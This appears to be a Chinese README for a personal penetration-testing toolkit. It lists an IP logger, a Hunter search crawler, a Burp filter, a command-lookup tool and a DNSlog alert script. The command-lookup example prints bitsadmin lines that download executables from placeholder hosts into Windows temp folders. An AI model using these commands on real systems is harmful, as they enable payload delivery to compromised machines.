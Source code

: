 # 渗透测试小工具集

## getip 

> 记录自己平时做渗透的出口IP

没别的说的，就是记录一下自己平时的IP

## attacktop

> 攻击者IP次数统计


- 在看golang，顺手就把之前的一些python改成golang了。
- 这工具有个好处就在于统计出现次数，虽然Excel其实可以做得很好，但好多时候我连Excel都难得打开。把这工具添加环境变量，直接一条命令解决。

## hunters

> 奇安信全球鹰爬虫工具

网上其实关于hunter的爬虫工具非常多，但不知道为啥总冥冥之中觉得不适合自己，所以造了这个轮子。

功能大体跟别的相似，并且只支持hunter，原因是fofa有ehole、360可以直接导出。我费那个劲集成在一起干啥，并且这些工具其实人家都做得挺不错。

❎ 计划后头写成图形化的，别问为啥，有些时候命令行总觉得缺了点啥（单纯个人觉得）

## WebFilter

> 抓包过滤无意义网站

Burpsuite代理的时候可以使用这部分过滤非常多的垃圾网站（包含一部分互联网企业，如果挖掘src的需要自行研判了）以此减轻BurpSuite被动扫描的压力。


## Fs

> 快速命令检索工具

年龄大了？记忆不好？就用fs

代码很简洁，需要自己简单修改下代码，没有很好做好适配。

把你常用且又爱忘记的一些命令放到use.log里，然后通过执行Linux命令来检索。

那么你只需要编译好这个工具以后直接fs admin，就可以检索admin相关的信息出来。

如下所示：

```bash
➜  ~ fs bitsadmin
-+====================================+-
   181  ➜  windows download[+]:bitsadmin /rawreturn /transfer getfile http://x.x.x.x:8888/tomcat.exe c:\\users\\Manager\\AppData\\Local\\Temp
   183  ➜  windows download[+]:bitsadmin /rawreturn /transfer down "http://127.0.0.1:8080/z.exe" c:\\z.exe
   259  ➜  bitsadmin /rawreturn /transfer getfile http://x.x.x.x/tomcat.exe c:\\users\\Manager\\AppData\\Local\\Temp
-+====================================+-
```

不折不扣的懒人必备！

PS：之前有小伙伴问为什么不用命令行的那个提示符，那个感觉还是有点瑕疵，也就是你必须要记得前面字符，才会提示后面字符，而有时候是记得中间字符并不记得前面字符。

## ceyes

> Ceyes dnslog告警提示

起因：早之前一直使用低版本的BurpSuite1.7.33，奈何在低版本中logger插件动不动就卡死啥的。

使用了高版本bp后，心想这个问题就解决了。

没想到....昨天一堆log4j的告警，而我在logger里死活搜索不到。

所以。。。。就有了这个小脚本。

可以自己加定时任务，自动检索然后产生告警，还是舒服的。

🤔 待添加功能

❎ 日志记录

❎ 将所需配置项写到JSON内读取